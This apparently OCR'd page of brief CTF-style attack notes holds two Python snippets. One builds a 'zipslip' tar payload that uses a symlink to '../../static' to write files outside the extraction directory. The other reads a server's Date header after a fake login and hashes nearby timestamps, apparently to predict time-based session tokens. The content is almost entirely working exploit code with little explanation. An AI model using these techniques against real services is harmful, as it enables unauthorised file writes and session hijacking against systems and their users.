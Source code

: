zip→zipslip  压缩文件 软链接 

from tarfile import TarFile
import subprocess

subprocess.run(["ln", "-s", "../../static", "link"])

with TarFile("payload.tar", "w") as tarf:
    tarf.add("link")
    tarf.add("link", "link/test.txt")
session create
import requests as re
import hashlib
from datetime import datetime, timezone, timedelta

BASE_URL = ""
USERNAME = "noexist"
MONTHS = ["Jan", "Feb", "Mar", "Apr", "May", "Jun", "Jul", "Aug", "Sep", "Oct", "Nov", "Dec"]

def extract_posix_time_from_fake_login():
    resp = re.post(f"{BASE_URL}/login", data={"username": USERNAME, "password":"dummypassword"})
    [day, mon, year, time, tz] = resp.headers.get("Date").split(",")[1].split()
    [hour, minute, second] = time.split(":")
    mon = MONTHS.index(mon.capitalize()) + 1
    tz = timezone(offset=timedelta(hours=0))

    dt = datetime(int(year), mon, int(day), int(hour), int(minute), int(second), tzinfo=tz)
    posix = int(dt.timestamp())
    print(f"THE DATE HEADER: {resp.headers.get('Date')}")
    print(f"THE DATETIME OBJECT: {dt}")
    print(f"THE POSIX TIME: {posix}")

    return posix

posix =  extract_posix_time_from_fake_login()

print()
print(f"THE BEFORE HASH IS {hashlib.sha256(str(posix - 1).encode()).digest().hex()}")
print(f"THE EXACT HASH IS {hashlib.sha256(str(posix).encode()).digest().hex()}")
print(f"THE AFTER HASH IS {hashlib.sha256(str(posix + 1).encode()).digest().hex()}")
